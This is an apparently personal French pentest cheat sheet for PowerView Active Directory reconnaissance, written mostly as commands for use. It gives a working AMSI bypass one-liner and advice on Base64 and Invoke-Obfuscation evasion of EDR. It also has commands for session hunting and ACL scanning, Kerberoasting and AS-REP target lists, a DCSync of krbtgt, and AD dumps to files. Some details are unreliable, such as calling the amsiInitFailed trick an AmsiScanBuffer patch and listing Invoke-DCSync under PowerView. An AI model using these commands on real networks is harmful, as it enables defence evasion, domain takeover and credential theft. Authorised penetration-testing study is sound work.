

## Chargement de PowerView

```powershell
Import-Module .\PowerView.ps1
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process
```

> [!warning] AMSI
> **PowerView** est fortement détecté par les antivirus modernes, prévoir un bypass.

> [!note] Droits requis
> La plupart des commandes fonctionnent avec un utilisateur authentifié standard.

## Contournement de l'AMSI (Antimalware Scan Interface)

Pour exécuter PowerView dans un environnement protégé, il est nécessaire de neutraliser l'AMSI en mémoire avant le chargement du script.

```powershell
# Technique classique de patch mémoire (AmsiScanBuffer)
$a=[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils');$b=$a.GetField('amsiInitFailed','NonPublic,Static');$b.SetValue($null,$true)
```

> [!tip]
> Cette méthode est très connue des EDR. Privilégiez l'utilisation de loaders personnalisés ou l'obfuscation du script avant exécution.

## Techniques d'obfuscation pour éviter la détection EDR

L'obfuscation permet de modifier la signature du script pour éviter les alertes basées sur les chaînes de caractères (ex: `Invoke-DCSync`).

```powershell
# Exemple d'obfuscation simple par encodage Base64
$script = Get-Content .\PowerView.ps1 -Raw
$encoded = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($script))
powershell -EncodedCommand $encoded
```

Pour des techniques plus avancées, utilisez des outils comme **Invoke-Obfuscation** pour renommer les fonctions et variables de manière aléatoire.

## Découverte de base du domaine

| Commande | Explication |
| :--- | :--- |
| `Get-NetDomain` | Récupère les informations du domaine actuel |
| `Get-NetForest` | Affiche les informations sur la forêt AD |
| `Get-NetDomainController` | Liste les contrôleurs de domaine du domaine actuel |
| `Get-NetDomainTrust` | Affiche les relations d’approbation entre domaines |
| `Get-NetForestTrust` | Montre les trusts entre forêts |
| `Get-DomainSID` | Récupère le SID du domaine |
| `Get-ADDomain` | Cmdlet Microsoft renvoyant des informations AD |

## Reconnaissance des utilisateurs, groupes et GPO

### Utilisateurs

| Commande | Explication |
| :--- | :--- |
| `Get-NetUser` | Liste tous les utilisateurs du domaine |
| `Get-NetUser -UserName bob` | Affiche les infos détaillées sur un utilisateur |
| `Get-DomainUser -AdminCount 1` | Liste les utilisateurs avec **adminCount** = 1 |

### Groupes

| Commande | Explication |
| :--- | :--- |
| `Get-NetGroup` | Liste tous les groupes du domaine |
| `Get-NetGroup -GroupName "Domain Admins"` | Affiche les membres d’un groupe spécifique |
| `Get-DomainGroupMember -Identity "Administrators"` | Liste les membres d’un groupe incluant l'imbrication |

### GPO

| Commande | Explication |
| :--- | :--- |
| `Get-NetGPO` | Liste tous les GPOs du domaine |
| `Get-NetGPOGroup` | Liste les groupes affectés par des GPOs |

## Reconnaissance des machines et sessions

### Machines

| Commande | Explication |
| :--- | :--- |
| `Get-NetComputer` | Liste tous les ordinateurs du domaine |
| `Get-NetComputer -Ping` | Liste les machines accessibles via ping |
| `Get-NetServer` | Liste les serveurs du domaine |
| `Get-DomainController` | Liste les DC du domaine actuel |

### Sessions

| Commande | Explication |
| :--- | :--- |
| `Get-NetSession` | Montre les sessions actives sur une machine |
| `Get-NetLoggedon` | Affiche les comptes logués sur une machine |
| `Invoke-UserHunter` | Repère où les utilisateurs privilégiés sont connectés |
| `Invoke-StealthUserHunter` | Version discrète d'**Invoke-UserHunter** |

> [!danger] Attention aux logs
> **Invoke-UserHunter** génère beaucoup de trafic réseau et d'événements de connexion.

## Gestion des credentials (Pass-the-Hash, Kerberoasting)

PowerView facilite la collecte d'informations nécessaires aux attaques de type **Kerberoasting** ou **AS-REP Roasting**.

```powershell
# Kerberoasting : Lister les utilisateurs avec un SPN
Get-NetUser -SPN | select samaccountname, serviceprincipalname

# AS-REP Roasting : Lister les utilisateurs sans pré-authentification Kerberos requise
Get-NetUser -PreauthNotRequired
```

Pour le **Pass-the-Hash**, PowerView ne réalise pas l'injection, mais permet d'identifier les comptes cibles (ex: comptes administrateurs locaux via `Find-LocalAdminAccess`). Voir les notes sur **Kerberoasting** et **AS-REP Roasting**.

## Requêtes ACL et Délégations

### Requêtes de délégation

| Commande | Explication |
| :--- | :--- |
| `Find-LocalAdminAccess` | Identifie les machines où l'utilisateur actuel est admin local |
| `Invoke-ACLScanner` | Scanne les objets AD pour les permissions anormales |
| `Get-ObjectAcl -SamAccountName X -ResolveGUIDs` | Affiche les ACL sur un objet spécifique |
| `Get-DomainObjectAcl -Identity "bob"` | Affiche les ACL avec résolution automatique |

### Techniques avancées

| Commande | Explication |
| :--- | :--- |
| `Get-ACLs -ResolveGUIDs` | Vérifie les droits **Replicating Directory Changes** |
| `Invoke-DCSync -UserName "krbtgt"` | Exfiltre les **TGT** ou hashs depuis le DC |

> [!danger] DCSync
> Nécessite des privilèges élevés (**Domain Admin** ou droits de réplication explicites). Voir **DCSync Attack** et **Active Directory ACLs**.

## Exfiltration des données collectées

La collecte massive de données AD peut être exfiltrée pour analyse hors-ligne (ex: via **BloodHound**).

```powershell
# Exporter les résultats au format CSV pour analyse ultérieure
Get-NetUser | Export-Csv -Path C:\Temp\users.csv -NoTypeInformation

# Exporter les objets AD au format JSON pour ingestion dans BloodHound
Get-DomainObject | ConvertTo-Json | Out-File C:\Temp\ad_dump.json
```

## Commandes diverses

| Commande | Explication |
| :--- | :--- |
| `Get-NetSite` | Affiche les sites Active Directory |
| `Get-NetSubnet` | Liste les sous-réseaux AD |
| `Get-DomainOU` | Liste les unités organisationnelles |
| `Get-DomainObject` | Récupère un objet AD brut par DN |
| `ConvertFrom-SID` | Conversion de SID vers nom |
| `ConvertTo-SID` | Conversion de nom vers SID |
| `Get-DomainPolicy` | Affiche les stratégies de domaine |

## Exemples d'usage

```powershell
# Lister les membres du groupe Domain Admins
Get-NetGroupMember -GroupName "Domain Admins"

# Rechercher les utilisateurs privilégiés connectés
Invoke-UserHunter

# Vérifier les droits de réplication
Get-ObjectAcl -SamAccountName "currentuser" -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "Replicating" }

# Lancer un DCSync
Invoke-DCSync -UserName "krbtgt"
```

## Ressources complémentaires

- **PowerView** est inclus dans le projet **PowerSploit**.
- Évolution moderne : **SharpView** (version C#).
- Voir également les notes sur **Kerberoasting**, **AS-REP Roasting**, **BloodHound**, **DCSync Attack** et **Active Directory ACLs**.